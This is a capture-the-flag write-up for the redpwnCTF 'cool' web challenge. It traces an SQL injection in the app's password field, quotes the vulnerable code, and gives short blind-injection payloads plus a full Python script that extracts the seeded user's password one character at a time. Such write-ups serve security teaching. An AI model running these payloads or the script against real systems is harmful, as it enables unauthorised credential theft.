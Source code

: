 # Cool - Web Challenge Writeup
## Author: https://github.com/0xgrey

### Source Code Analysis

Looking into the source code provided in the challenge ([app.py](https://raw.githubusercontent.com/0xgrey/CTF-Writeups/main/2021/redpwnCTF/web/cool/app.py)), a **SQL Injection** vulnerability is prevalent in the `create_user` function.

The snippet of code below highlights the **SQL injection** vulnerability.

Judging by the code flow, the `password` variable can be exploited since the characters are not sanitized for SQL queries by the `allowed_characters` variable, even though the `username` variable is sanitized.

It is also worth noting that the code disallows a password length longer than 50 characters, which limits how long our SQLi payloads can be.

Allowed Characters:
```python3
allowed_characters = set(
    'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789'
)
```

Vulnerable function:
```python3
 create_user(username, password):
    if any(c not in allowed_characters for c in username):
        return (False, 'Alphanumeric usernames only, please.')
    if len(username) < 1:
        return (False, 'Username is too short.')
    if len(password) > 50:
        return (False, 'Password is too long.')
    other_users = execute(
        f'SELECT * FROM users WHERE username=\'{username}\';'
    )
    if len(other_users) > 0:
        return (False, 'Username taken.')
    execute(
        'INSERT INTO users (username, password)'
        f'VALUES (\'{username}\', \'{password}\');'
    )
    return (True, '')
```

A user is created on startup called `ginkoid`. By abusing the SQL injection vulnerability in the password field, we can perform a blind injection to pull the user's credentials from the webserver.

Because the `generate_token` function is used to generage `ginkoid`'s password, we can expect to the length of the password to be 32 characters.

User Creation:
```python3
def init():
    # this is terrible but who cares
    execute('''
        CREATE TABLE IF NOT EXISTS users (
            username TEXT PRIMARY KEY,
            password TEXT
        );
    ''')
    execute('DROP TABLE users;')
    execute('''
        CREATE TABLE users (
            username TEXT PRIMARY KEY,
            password TEXT
        );
    ''')

    # put ginkoid into db
    ginkoid_password = generate_token()
    execute(
        'INSERT OR IGNORE INTO users (username, password)'
        f'VALUES (\'ginkoid\', \'{ginkoid_password}\');'
    )
    execute(
        f'UPDATE users SET password=\'{ginkoid_password}\''
        f'WHERE username=\'ginkoid\';'
    )
```

Generate token:
```python3
def generate_token():
    return ''.join(
        rand.choice(list(allowed_characters)) for _ in range(32)
    )
```

### Exploitation - Theory

Using my CVE Hunting setup, I ran the provided source code with a few [modifications](https://raw.githubusercontent.com/0xgrey/CTF-Writeups/main/2021/redpwnCTF/web/cool/modified_app.py) to the code for simplicity.

First, I added `db/db.sqlite3` to the app's directory to prevent runtime errors. Then, I ran the modified application on VSCode with debug mode enabled to view the SQL queries being executed.

Then, by making a POST request to `/register` with the username and password field, we can view the SQL queries in the debugger by setting a breakpoint on the modified `query` variable before the execute function. This variable is used to show the `VALUES` query before it gets executed.

![image](https://user-images.githubusercontent.com/36116981/126674870-c3054adc-3c03-4de9-94bc-4872ee58e62a.png)

By opening `db.sqlite3`, now we can use the insert query to generate a blind SQLi payload to grab `ginkoid`'s password.

![image](https://user-images.githubusercontent.com/36116981/126675347-cfc49243-6605-4524-9302-9c15ea039901.png)

Eventually, I was able to get an injection payload that was 76 characters long, which will not pass the password length check.

Injection Payload: `a'||(select substr(password,1,1)="M" from users where username="ginkoid")||'`
This payload functions by going character-by-character through `ginkoid`'s password, and setting the user's password to either `1` (true) or `0` (false) if the guessed character is correct.

![image](https://user-images.githubusercontent.com/36116981/126676637-33e39ac9-7193-430b-bc43-0ab32f3ecaff.png)

Because the password limit is set to 50 characters, I slimmed the payload down to where we can pull off a SQLi. The character count for this payload starts at 49 characters, and progresses as the second substring parameter increases to two digit values.

Injection Payload: `'||(select substr(password,1,1)="y" from users)|'`
![image](https://user-images.githubusercontent.com/36116981/126677620-38cdfdbe-7e95-487b-a480-124236bc3691.png)

To verify whether if a character exists or not, we can log in each time a user gets registered with the password being `1`. If the login is successful, then we can verify the placement of a user's password character, thus allowing us to get the user's password after repeated trial and error.

### Exploitation - PoC

The python PoC below shows the script I used to solve the challenge.

```python3
#!/usr/bin/env python3

import requests
import random
import time

url = "https://cool.mc.ax/"
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789"

password = []
slot = 1
reqs = 0

def login(username):
    payload = {
        "username": username,
        "password": '1'
    }
    r = requests.post(url, data=payload)

    if "Incorrect username or password" not in r.text:
        return True
    else:
        return False

while True:
    for letter in alpha:
        reqs += 1
        if reqs % 20 == 0:
            time.sleep(.3)
        username = ''.join(random.choice(list(alpha)) for _ in range(30))
        payload = {
            "username": username,
            "password": f"'||(select substr(password,{slot},1)=\"{letter}\" from users)|'"
        }

        r = requests.post(f"{url}register", data=payload)
        if "You are logged in!" in r.text:
            if login(payload["username"]):
                if slot == 32:
                    password.append(letter)
                    print(f"Found Ginkoid's Password: {''.join(password)}")
                    exit()
                slot += 1
                print(f"Found Letter: " + letter)
                password.append(letter)
                break
```
The screenshot below shows me grabbing `ginkoid`'s password with the PoC.

![image](https://user-images.githubusercontent.com/36116981/126684507-c925cb49-5832-4fe1-aa9e-2c5aefd7108e.png)

Using that password to log in the webserver, I was then given an mp3 file.

Popping that file into `strings` will provide the flag.

![image](https://user-images.githubusercontent.com/36116981/126684781-3239d600-afa0-4139-85f4-d9f943c079a4.png)

Flag: `flag{44r0n_s4ys_s08r137y_1s_c00l}`
